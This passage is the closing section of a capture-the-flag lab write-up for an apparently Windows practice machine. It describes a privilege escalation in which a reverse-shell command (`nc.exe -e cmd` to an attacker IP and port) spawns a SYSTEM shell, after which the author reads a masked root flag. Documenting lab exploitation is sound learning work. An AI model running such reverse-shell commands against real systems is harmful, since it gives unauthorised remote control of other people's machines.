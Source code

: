 Now, I set up anoter netcat listener and start netcat on the target machine via the exploit.exe. Use the command `exploit.exe "nc.exe -e cmd 10.10.17.28 4444` to launch netcat.

That worked, a shell as system spawned. Time to get the root flag.

## Root Flag

---

The flag is stored inside the Administrator's desktop:

```bash
C:\Users\Administrator\Desktop> type root.txt
type root.txt
c8**************************f5ea
```

# Conclusions

---

The box was not so easy than I thought. The privesc was easy but to get initial access, I had to research a lot because I have never heard of the exploitation of web.config.